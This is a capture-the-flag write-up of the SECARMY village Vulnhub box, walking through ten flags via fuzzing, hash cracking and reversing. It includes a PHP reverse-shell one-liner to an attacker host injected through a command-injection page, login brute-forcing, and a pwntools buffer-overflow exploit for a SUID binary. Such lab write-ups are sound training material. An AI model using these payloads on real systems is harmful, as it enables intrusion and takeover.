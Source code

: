 ```yaml
---
date: 2020-11-05 19:47:51
layout: post
title: "SECARMY CTF OSCP box"
description: "Writeup of the SECARMY CTF OSCP giveaway box"
image: /assets/img/secarmy-village-0.png
optimized_image: /assets/img/secarmy-village-0.png
category: blog
tags:
  - ctf
  - reversing
  - pwn
  - privilege_escalation

author: trollzorftw
---
```


### Context
This is a writeup for SECARMY's CTF OSCP box. The contest has ended, but you can find the VM on Vulnhub: [Download Page](https://www.vulnhub.com/entry/secarmy-village-grayhat-conference,585/)


### Flag 1
```bash
curl http://192.168.100.33
```
This gives us the following information: "You are required to find our hidden directory and make your way into the machine."

So naturally I throw a dirbust with common.txt wordlist at it:
```bash
ffuf -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.100.33/FUZZ

anon                    [Status: 301, Size: 315, Words: 20, Lines: 10]

curl http://192.168.100.33/anon/
```

Giving us the credentials for uno user:
```html
<font color="white">uno:luc10r4m0n</font>
```

### Flag 2
We read readme.txt and we get: 
"You surely can guess the username , the password will be: 4b3l4rd0fru705"

We try escalation to dos with password 4b3l4rd0fru705 and we get access


After reading readme.txt we run the following command:


```bash
cd ./files && grep -r a8211ac1853a1235d48829414626512a

file4444.txt:a8211ac1853a1235d48829414626512a
```

Opening file4444.txt tells us to: Look inside file3131.txt

file3131.txt gives us a base64 encoded text which decoded gives us a zip file to get flag and the next todo instructions:

```bash
echo "UEsDBBQDAAAAADOiO1EAAAAAAAAAAAAAAAALAAAAY2hhbGxlbmdlMi9QSwMEFAMAAAgAFZI2Udrg
tPY+AAAAQQAAABQAAABjaGFsbGVuZ2UyL2ZsYWcyLnR4dHPOz0svSiwpzUksyczPK1bk4vJILUpV
L1aozC8tUihOTc7PS1FIy0lMB7LTc1PzSqzAPKNqMyOTRCPDWi4AUEsDBBQDAAAIADOiO1Eoztrt
dAAAAIEAAAATAAAAY2hhbGxlbmdlMi90b2RvLnR4dA3KOQ7CMBQFwJ5T/I4u8hrbdCk4AUjUXp4x
IsLIS8HtSTPVbPsodT4LvUanUYff6bHd7lcKcyzLQgUN506/Ohv1+cUhYsM47hufC0WL1WdIG4WH
80xYiZiDAg8mcpZNciu0itLBCJMYtOY6eKG8SjzzcPoDUEsBAj8DFAMAAAAAM6I7UQAAAAAAAAAA
AAAAAAsAJAAAAAAAAAAQgO1BAAAAAGNoYWxsZW5nZTIvCgAgAAAAAAABABgAgMoyJN2U1gGA6WpN
3pDWAYDKMiTdlNYBUEsBAj8DFAMAAAgAFZI2UdrgtPY+AAAAQQAAABQAJAAAAAAAAAAggKSBKQAA
AGNoYWxsZW5nZTIvZmxhZzIudHh0CgAgAAAAAAABABgAAOXQa96Q1gEA5dBr3pDWAQDl0GvekNYB
UEsBAj8DFAMAAAgAM6I7USjO2u10AAAAgQAAABMAJAAAAAAAAAAggKSBmQAAAGNoYWxsZW5nZTIv
dG9kby50eHQKACAAAAAAAAEAGACAyjIk3ZTWAYDKMiTdlNYBgMoyJN2U1gFQSwUGAAAAAAMAAwAo
AQAAPgEAAAAA" | base64 -d > flag2.zip

unzip flag2.zip && cat ./challenge2/flag2.txt
```


### Flag 3
We obtain a super secret token from the previous archive and use it on 1337 port:

```bash
echo "c8e6afe38c2ae9a0283ecfb4e1b7c10f7d96e54c39e727d0e5515ba24a4d1f1b" | nc 192.168.100.33 1337
```

Which gives us:
```
 Welcome to SVOS Password Recovery Facility!
 Enter the super secret token to proceed: 
 Here's your login credentials for the third user tres:r4f43l71n4j3r0
```

### Flag 4
We get a binary which we need to reverse.Using gdb-peda as our reverse tool, we run the binary and close it when it prompts us to enter the key. Because I was unable to breakpoint anywhere in the main function, I tried to find "keywords" that might be in the binary.The command "find 'credentials'" worked and I got:

```bash
mapped : 0x7ffff7ffb09b ("credentials for the fourth user cuatro:p3dr00l1v4r3z")
```

### Flag 5
The todo.txt tells us to go to /justanothergallery on the webserver

After analyzing a little bit we get a bunch of qr images in: http://192.168.100.33/justanothergallery/qr/


Downloading them all and decoding the qr codes with a simple python script gives us the next credentials and flag:
```python
from PIL import Image
from pyzbar.pyzbar import decode
import sys

imgs = []
for i in range(69):
	imgs.append('image-{}.png'.format(i))

decoded_text = ''

for img in imgs:
	data = str(decode(Image.open(img))[0]).split("data=b'")[1].split("',")[0]
	decoded_text += data + ' '

print(decoded_text)
```

Result:
```
Hello and congrats for solving this challenge, we hope that you enjoyed the challenges we presented so far. It is time for us to increase the difficulty level and make the upcoming challenges more challenging than previous ones. Before you move to the next challenge, here are the credentials for the 5th user: cinco:ruy70m35 head over to this user and get your 5th flag! goodluck for the upcoming challenges!
```

### Flag 6
Reading readme.txt points us to /cincos-secrets/ here we'll get a shadow.bak file but is not readable. Changing the permissions will give us a hash:

```bash
chmod 444 shadow.bak && cat shadow.bak | grep seis

seis:$6$MCzqLn0Z2KB3X3TM$opQCwc/JkRGzfOg/WTve8X/zSQLwVf98I.RisZCFo0mTQzpvc5zqm/0OJ5k.PITcFJBnsn7Nu2qeFP8zkBwx7.:18532:0:99999:7:::
```

Cracking the hash gives us the password: Hogwarts , so creds: seis:Hogwarts


### Flag 7
The readme.txt file gives us the following path: "head over to /shellcmsdashboard webpage and find the credentials!"
After trying a bit with hydra, having no success because no message on fail. I decided to bruteforce login on burp sniper attack and obtained the password qwerty and getting message "head over to /aabbzzee.php" which will give us a easy command injection box where we will get a reverse shell from.

Adding "php -r '$sock=fsockopen("ATTACKER-IP",LISTEN-PORT);exec("/bin/sh -i <&3 >&3 2>&3");'" in the search bar
and setting up a netcat reverse shell on LISTEN-PORT on the attacker box we will get www-data shell where we get the seventh user password: 6u1l3rm0p3n473


### Flag 8
After playing around with the message, I discovered that xoring "x" with every number in message.txt will give us the password. I created a small python script to extract it:

```python
message = [11, 29, 27, 25, 10, 21, 1, 0, 23, 10, 17, 12, 13, 8]
extracted = ''
for key in message:
  extracted += chr(ord('x')^key)

print(extracted)

Output:secarmyxoritup
```


### Flag 9
We are presented with a pcapng file. Opening it up with wireshark we will get a tcp stream that has a LOT of text in which "QWERTY" is repeated a lot. Also, there were some dns queries to dcode.fr so there is a hint of that too.

We obtain a password from the long text: mjwfr?2b6j3a5fx/c .Using dcode.fr and use keyboard shift cipher with settings: 
	-QWERTY(US) 
	-Shift Right + Clockwise rotation

will give us the credentials for the 9th user: 	
```
nueve:355u4z4rc0
```


### Flag 10
We have a suid set binary, so we will need to exploit it to get root. Reversing it and creating a small python exploit script will do the trick:

```python
from pwn import *

io = process("./orangutan")
io.recvline("pwnme if u can ;)")
junk = b"A" * 24
payload = junk + p64(0xcafebabe)
io.sendline(payload)
io.interactive()
```
